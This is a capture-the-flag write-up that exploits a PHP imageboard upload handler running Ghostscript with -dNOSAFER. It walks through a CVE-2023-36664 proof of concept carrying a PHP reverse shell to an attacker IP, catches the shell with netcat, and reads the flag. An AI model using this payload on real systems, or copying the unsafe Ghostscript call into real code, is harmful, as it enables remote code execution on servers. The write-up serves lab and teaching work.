


This challenge is based on the [4chan breach recently](https://www.reuters.com/technology/cybersecurity/notorious-internet-messageboard-4chan-has-been-hacked-posts-claim-2025-04-15/), there was some information about it sent by someone (one of the participants? Observers? Not to sure):


Visiting the web application... yup that's 4chan:


We are given PHP source code:
```php
<?php

session_start([
    'cookie_httponly' => true,
    'use_strict_mode' => true,
]);

if (!isset($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

$uploadsDir = __DIR__ . '/uploads';
$maxSize    = 5 * 1024 * 1024; // 5 MB
$allowedExt = ['jpg', 'jpeg', 'png', 'gif', 'pdf', 'webp'];

function getDb(): PDO
{
    static $db = null;

    if ($db === null) {
        $db = new PDO(
            'sqlite:/tmp/imageboard.db'
        );

        $db->exec("CREATE TABLE IF NOT EXISTS posts (
            id          INTEGER PRIMARY KEY AUTOINCREMENT,
            message     TEXT NOT NULL,
            image       TEXT,
            created_at  DATETIME DEFAULT CURRENT_TIMESTAMP
        )");
    }

    return $db;
}

try {
    $db = getDb();
} catch (PDOException $e) {
    die('Database error: ' . $e->getMessage());
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $csrf = $_POST['csrf_token'] ?? '';
    if (!hash_equals($_SESSION['csrf_token'], $csrf)) {
        die('Invalid CSRF token.');
    }

    $message  = trim($_POST['message']  ?? '');
    $imageRel = null;

    if ($message === '') {
        header('Location: ' . htmlspecialchars(basename(__FILE__)));
        exit;
    }

    if (!empty($_FILES['image']['name'])) {
        $ext = strtolower(pathinfo($_FILES['image']['name'], PATHINFO_EXTENSION));

        if (!in_array($ext, $allowedExt, true)) {
            die('Unsupported file type.');
        }
        if ($_FILES['image']['size'] > $maxSize) {
            die('File exceeds maximum size of 5 MB.');
        }
        if (!is_dir($uploadsDir) && !mkdir($uploadsDir, 0755, true)) {
            die('Failed to create uploads directory.');
        }

        $filename = uniqid('img_', true) . '.' . $ext;
        $dest     = $uploadsDir . '/' . $filename;

        if (!move_uploaded_file($_FILES['image']['tmp_name'], $dest)) {
            die('Failed to move uploaded file.');
        }
        $imageRel = 'uploads/' . $filename;

        if ($ext == 'pdf') {
            exec("gs -dBATCH -dNOSAFER -dNODISPLAY -dNOPAUSE -sDEVICE=jpeg -dLastPage=1 -r100 -sOutputFile={$imageRel}_proc.jpg $imageRel");
            exec("convert {$imageRel}_proc.jpg -thumbnail 100x100^ -gravity center -extent 100x100 {$imageRel}_thumb.jpg");
        } else {
            exec("convert $imageRel -thumbnail 100x100^ -gravity center -extent 100x100 {$imageRel}_thumb.jpg");
        }
    }

    $stmt = $db->prepare('INSERT INTO posts (message, image) VALUES (?,?)');
    $stmt->execute([$message, $imageRel]);

    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));

    header('Location: ' . htmlspecialchars(basename(__FILE__)));
    exit;
}

$posts = $db->query('SELECT * FROM posts ORDER BY id DESC')->fetchAll(PDO::FETCH_ASSOC);

?>
```

The most interesting snippet is seen here:
```php
if ($ext == 'pdf') {
    exec("gs -dBATCH -dNOSAFER -dNODISPLAY -dNOPAUSE -sDEVICE=jpeg -dLastPage=1 -r100 -sOutputFile={$imageRel}_proc.jpg $imageRel");
    exec("convert {$imageRel}_proc.jpg -thumbnail 100x100^ -gravity center -extent 100x100 {$imageRel}_thumb.jpg");
} else {
    exec("convert $imageRel -thumbnail 100x100^ -gravity center -extent 100x100 {$imageRel}_thumb.jpg");
}
```

We can see that PDFs are parsed with GhostScript, like the 4chan exploit. With some research we can find a [CVE-2023-36664 PoC](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection) for command injection.

We can then use a PHP webshell from Revshells with the CVE to create a PostScript PoC:
```
$ python3 CVE_2023_36664_exploit.py -p "php -r '\$sock=fsockopen(\"xx.xx.xx.xx\",4444);\$proc=proc_open(\"/bin/bash\", array(0=>\$sock, 1=>\$sock, 2=>\$sock),\$pipes);'" -g -x ps
[+] Generated PS payload file: malicious.ps
```

We can then change this to a PDF:
```
$ mv malicious.ps malicious.pdf
```

Once uploaded, we can receive a netcat connection and get the flag:
```
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [52.87.223.95] 36032
whoami
whoami: cannot find name for user ID 1000
ls
index.php
uploads
view.php
cat /flag.txt
DawgCTF{h4ck3d_by_0pay_expl01t}
```

Flag: `DawgCTF{h4ck3d_by_0pay_expl01t}`